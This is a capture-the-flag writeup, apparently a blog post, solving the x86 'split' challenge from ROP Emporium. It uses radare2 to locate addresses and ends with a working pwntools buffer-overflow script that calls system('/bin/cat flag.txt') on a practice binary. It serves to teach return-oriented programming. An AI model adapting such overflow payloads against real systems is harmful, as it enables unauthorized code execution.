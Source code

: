 ```yaml
---
layout: post
title:  "ROP Emporium split Writeup (x86)"
date:   2024-06-01 13:15:45 -0400
categories: rop-emporium split
tags: rop-emporium split x86 writeup buffer-overflow rop
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[second challenge](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call `system` with the argument `/bin/cat flag.txt`.
This string is also present in the binary!

### x86 Calling Convention
We know from the first challenge we need to set the
instruction pointer to a function address in order to
call that function. But how do we pass arguments to
those functions?

In `x86`, we pass each argument onto the stack. This is
easy since we already control the stack! There are other
[`x86` calling conventions](https://en.wikipedia.org/wiki/X86_calling_conventions){:target="_blank"}{:rel="noopener noreferrer"}
but passing arguments is all we need to know for
our purposes

## Exploit Crafting
The offset for `x86` challenges will be `44 bytes`. If
you want to know how to get this value see the
[ret2win writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

### Function Address
> Is there an address where `system()` is called?
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![ret2win-addr](/images/split/x86-addr.png)

Let's investigate `usefulFunction`. We can view
the assembly with the following commands

```
s sym.usefulFunction
V
p
```

![useful-asm](/images/split/x86-useful-asm.png)

This function seems to `call` the `system()` function
with the argument `/bin/ls`. We want to change the
argument but let's take note of the `call` address
`0x0804861a`

### String Address
> The string `/bin/cat flag.txt` exists in the binary
{: .prompt-tip }
Using `radare2` again we can search for case insensitive
strings with the `/i` command. So to find the address
of `/bin/cat flag.txt` we run

```
/i /bin/cat flag.txt
```
![cat-addr](/images/split/x86-cat-addr.png)

Awesome the address of the string is `0x0804a030`

## Exploit
Now we have everything we need to build the exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
str_addr = 0x0804a030
sys_addr = 0x0804861a

# create payload
payload = b'A' * 44
# call sys
payload += p32(sys_addr)
# set arg1
payload += p32(str_addr)

# send payload + receive flag
io = process('./split32')
io.recv()
io.sendline(payload)
print(io.recvline())
success(io.recvline())
```
![flag](/images/split/x86-flag.png)

## Conclusion
This challenge takes things a step further than
just calling an arbitrary function by introducting the 
ability to set arbitrary arguments for that function.

